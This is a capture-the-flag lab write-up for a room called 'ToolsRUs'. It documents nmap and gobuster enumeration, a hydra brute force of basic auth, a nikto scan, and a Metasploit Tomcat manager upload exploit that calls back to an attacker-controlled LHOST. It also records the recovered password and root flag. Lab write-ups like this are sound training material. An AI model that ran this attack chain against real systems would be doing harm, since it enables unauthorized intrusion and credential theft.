


# ToolsRUs
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.98.251

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sV -p- -oN nmap.txt 10.10.98.251
```



**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18),<br>
    1234 (http Apache Tomcat/Coyote JSP engine 1.1), <br>
    8009 (ajp13 Apache Jserve Protocol v1.3)

Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.98.251 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Directories of Interest: /guidelines, /protected

Potential username bob from /guidelines and looks like tomcat server might be outdated


/protected has basic auth

Enumerate hidden directories on website on port 1234
```
gobuster dir -u http://10.10.98.251:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Apache Tomcat/7.0.88 servern

Directories of Interest: /manager

### 2. BRUTE FORCE BASIC AUTH

use Burp Suite to see reqeust


Login request sent as encoded string<br>
Ym9iOnRlc3Q= = bob:test

We can use hydra to crack this basic auth
-f: IP address
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt.gz -f 10.10.98.251 http-get /protected
```



**PASSWORD**: bubbles


### 3. SCAN TOMCAT SERVER

Use nikto to do a web vulnerability scan
-id CREDENTIALS (username:password)
```
nikto -host http://10.10.98.251:1234/manager -id "bob:bubbles"
```


### 4. EXPLOIT

Use metasploit to exploit server
```
msfconsole
search tomcat
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.98.251
set RPORT 1234
set HttpPassword bubbles
set HttpUsername bob
set LHOST 10.6.1.136
exploit
```


**ROOT FLAG**: ff1fc4a81affcc7688cf89ae7dc6e0e1